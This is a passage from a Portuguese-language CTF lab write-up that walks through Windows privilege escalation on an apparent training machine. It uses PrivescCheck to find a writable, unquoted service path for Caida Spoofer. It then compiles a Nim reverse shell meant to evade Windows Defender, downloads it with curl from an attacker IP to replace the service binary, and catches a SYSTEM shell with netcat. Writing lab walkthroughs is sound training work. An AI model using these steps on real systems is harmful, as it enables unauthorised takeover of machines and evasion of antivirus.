

Após a coleta inicial de informações, conseguimos estabelecer uma conexão via **SSH**, o que representou um avanço significativo na exploração da aplicação. Com esse acesso, já foi possível obter **informações sigilosas armazenadas no sistema**. A partir deste ponto, o foco passa a ser a **elevação de privilégios**, com o objetivo de obter controle total sobre o sistema e explorar completamente os recursos disponíveis com privilégios administrativos.


## 3.4 `PrivescCheck`
Após reunir todas as informações iniciais sobre os serviços, permissões e softwares instalados, o próximo passo é identificar **um vetor viável de escalonamento de privilégios**. Para isso, será utilizado o script [**`PrivescCheck.ps1`**](https://github.com/itm4n/PrivescCheck), uma ferramenta em PowerShell amplamente usada em auditorias de segurança, que realiza uma enumeração detalhada do sistema em busca de **configurações inseguras, permissões incorretas, credenciais expostas, tarefas agendadas vulneráveis, serviços mal configurados**, entre outros pontos críticos que podem ser explorados para obter privilégios elevados.

`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`

```
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓  
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃  
┃ NAME     ┃ Service binary permissions                        ┃  
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫  
┃ Check whether the current user has any write permissions on  ┃  
┃ a service's binary or its folder.                            ┃  
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛  
[*] Status: Vulnerable - High Name : spoofer-scheduler  

ImagePath : C:\\Program Files (x86)\\Spoofer\\spoofer-scheduler.exe  
User : LocalSystem  
ModifiablePath : C:\\Program Files (x86)\\Spoofer  
IdentityReference : BUILTIN\\Users  
Permissions : WriteOwner, Delete, WriteAttributes, Synchronize, ReadControl, ListDirectory, AddSubdirectory, WriteExtendedAttributes, WriteDAC,  
ReadAttributes, AddFile, ReadExtendedAttributes, DeleteChild, Traverse  
Status : Running  
UserCanStart : True  
UserCanStop : True  
Name : spoofer-scheduler  


ImagePath : C:\\Program Files (x86)\\Spoofer\\spoofer-scheduler.exe  
User : LocalSystem  
ModifiablePath : C:\\Program Files (x86)\\Spoofer\\spoofer-scheduler.exe  
IdentityReference : BUILTIN\\Users  
Permissions : WriteOwner, Delete, WriteAttributes, Synchronize, ReadControl, ReadData, AppendData, WriteExtendedAttributes, WriteDAC, ReadAttributes,  
WriteData, ReadExtendedAttributes, DeleteChild, Execute  
Status : Running  
UserCanStart : True  
UserCanStop : True
```

# 4. Escalando Privilégios
O objetivo é avaliar se esse binário representa um vetor viável para escalada local e possível obtenção de acesso privilegiado ao sistema.


## 4.1 Descobrindo a versão do binário

## 4.2 Entendendo sobre a vulnerabilidade
Após ter descoberto a versão e encontrei um [Exploit](https://packetstorm.news/files/id/166553) que mostra a vulnerabilidade nessa versão segue a exploração

```
  
Description: 
------------- 
Caida Spoofer 1.4.6 installs a service (spoofer-scheduler) with an unquoted service path. Since this service is running as SYSTEM, this creates a local privilege escalation vulnerability. To properly exploit this vulnerability, a local attacker can insert an executable in the path of the service. Rebooting the system or restarting the service will run the malicious executable with elevated privileges. 
------------------


Proof of Concept: 
------------------ 
C:\Users\asim.sattar>wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """


Spoofer Scheduler spoofer-scheduler C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe Auto
```

Com isso, podemos utilizar o comando `sc qc spoofer-scheduler` para verificar os detalhes de configuração do serviço em questão

```
tyler@HACKSMARTERSEC C:\Users\tyler>sc qc "spoofer-scheduler"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: spoofer-scheduler
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Spoofer Scheduler
        DEPENDENCIES       : tcpip
        SERVICE_START_NAME : LocalSystem
```

A princípio, a configuração parece estar normal, mas duas informações são cruciais para identificar uma possível vulnerabilidade
1. **O serviço está sendo executado com a conta `LocalSystem`**, ou seja, com privilégios máximos no sistema.
2. **O caminho do executável (`BINARY_PATH_NAME`) não está entre aspas**, mesmo contendo espaços — isso caracteriza uma vulnerabilidade clássica conhecida como **Unquoted Service Path**.
Essa falha permite que, se o atacante tiver permissão de escrita em algum dos diretórios intermediários (como `C:\`), seja possível injetar um executável malicioso com um nome genérico como `Program.exe`, que será executado com privilégios de **SYSTEM** durante o boot ou reinício do serviço.

## 4.3 Fazendo Reverse Shell com NIM

A primeira etapa consiste em **compilar uma reverse shell utilizando a linguagem de programação Nim**, com o objetivo de **evadir mecanismos de defesa como o Windows Defender**. O uso de Nim permite gerar payloads menos detectáveis, uma vez que suas assinaturas ainda são pouco conhecidas por muitos antivírus e EDRs, além de possibilitar a geração de binários nativos leves e eficientes para Windows.

> [!Observação]
> Antes de compilar, lembre-se de alterar o IP e a porta e, obviamente, abrir uma conexão com o Netcat.


`nim c -d:mingw --app:gui rev_shell.nim`



Após isso, você transfere a payload maliciosa para a máquina da vítima.

Com base nas informações obtidas, o próximo passo é **encerrar o processo** do `"spoofer-scheduler"` para que seja possível substituir o executável legítimo pelo executável malicioso.

```
tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>sc stop spoofer-scheduler

SERVICE_NAME: spoofer-scheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0x0
```

`tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>curl 10.11.85.218/spoofer-scheduler.exe -o spoofer-scheduler.exe`

Após iniciar o serviço é tenho que apenas esperar a conexão ser estabelecida.

```
arthur-strelow@ubuntu-star:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.248.110 49798
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd ../../Users
C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users

06/30/2023  07:10 PM    <DIR>          .
06/30/2023  07:10 PM    <DIR>          ..
06/26/2025  05:34 PM    <DIR>          Administrator
12/12/2018  07:45 AM    <DIR>          Public
06/30/2023  07:10 PM    <DIR>          tyler
               0 File(s)              0 bytes
               5 Dir(s)  14,117,548,032 bytes free
C:\Users> cd Administrator


C:\Users\Administrator> cd Desktop
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

06/30/2023  07:08 PM    <DIR>          .
06/30/2023  07:08 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/30/2023  06:40 PM    <DIR>          Hacking-Targets
               2 File(s)          1,081 bytes
               3 Dir(s)  14,117,548,032 bytes free
C:\Users\Administrator\Desktop> cd Hacking-Targets
C:\Users\Administrator\Desktop\Hacking-Targets> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop\Hacking-Targets

06/30/2023  06:40 PM    <DIR>          .
06/30/2023  06:40 PM    <DIR>          ..
06/27/2023  09:40 AM                53 hacking-targets.txt
               1 File(s)             53 bytes
               2 Dir(s)  14,117,478,400 bytes free
C:\Users\Administrator\Desktop\Hacking-Targets> type hacking-targets.txt

Next Victims: 
CyberLens, WorkSmarter, SteelMountain
```